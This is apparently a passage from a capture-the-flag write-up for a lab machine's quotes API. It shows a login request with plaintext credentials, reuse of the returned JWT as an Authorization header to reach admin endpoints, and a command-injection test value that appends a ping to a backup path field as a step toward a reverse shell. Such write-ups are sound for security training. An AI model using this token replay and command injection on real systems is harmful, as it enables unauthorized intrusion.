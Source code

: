 - Here is what the login request will look like:

```bash
POST /auth/login HTTP/1.1
Host: api.mentorquotes.htb
Content-Length: 104
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Content-Type: application/json
Sec-GPC: 1
Accept-Language: en-US,en;q=0.8
Origin: http://api.mentorquotes.htb
Referer: http://api.mentorquotes.htb/docs
Accept-Encoding: gzip, deflate
Connection: close

{
  "email": "james@mentorquotes.htb",
  "username": "james",
  "password": "kj23sadkj123as0-d213"
}


```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230123054613.png)

- Take the token:

```bash
"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0"
```

- Place it in as a header `

```bash

Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0

```

- Go to:
	- [[http://api.mentorquotes.htb/admin]]

![image](https://0xc0rvu5.github.io/docs/assets/images/20230123055038.png)

- Go to:
	- [[http://api.mentorquotes.htb/admin/backup]]
- Once you get squared away the request will look something similar to this.
- Prior to the `reverse shell` you can test it with ping.
	- `"path": "/etc/passwd;ping -c 5 your_ip_addr`
		- be sure to start a listener for `icmp`:
			- `sudo tcpdump -i tun0 icmp`
- Here is the general format.
